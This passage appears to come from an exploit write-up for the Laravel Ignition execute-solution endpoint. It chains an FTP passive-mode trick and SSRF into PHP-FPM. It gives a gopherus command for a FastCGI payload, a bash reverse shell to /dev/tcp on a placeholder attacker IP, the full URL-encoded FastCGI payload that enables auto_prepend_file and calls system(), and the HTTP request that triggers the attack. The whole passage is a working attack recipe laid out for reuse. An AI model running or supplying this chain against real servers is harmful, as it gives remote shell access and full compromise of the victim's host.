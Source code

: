 You probably already know what this is going on: We will use the passive mode of the FTP protocol to have file_get_contents() download a file on our server, and when it tries to upload it back using file_put_contents(), we will tell it to send the file to 127.0.0.1:9000.

In this way, we can send an arbitrary packet to PHP-FPM to execute the code.

Using this approach, the vulnerability was successfully exploited on our goals.

Let’s demonstrate the attack process below.

First, we use gopherus to generate the payload to attack fastcgi:

```shell
python gopherus.py --exploit fastcgi
/var/www/public/index.php  # 这里输入的是目标主机上一个已知存在的php文件
bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1"  # 这里输入的是要执行的命令
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313095458200.png)

Get the payload, and what we need is the data part after `_` in the above payload, that is:

```php
%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%07%07%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%19SCRIPT_FILENAME/var/www/public/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/xxx.xxx.xxx.xxx/9999%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

Add data to the payload in the `FTP script` below (the script is at the end of the article and in the POC directory)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313095458896.png)



Listen to the rebound shell port just now and run the FTP script



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313095458236.png)



Send a request to bounce shell

```json
POST /_ignition/execute-solution HTTP/1.1
Host: 
Content-Type: application/json
Content-Length: 191

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "ftp://aaa@xxx.xxx.xxx.xxx:23/123"
  }
}
```

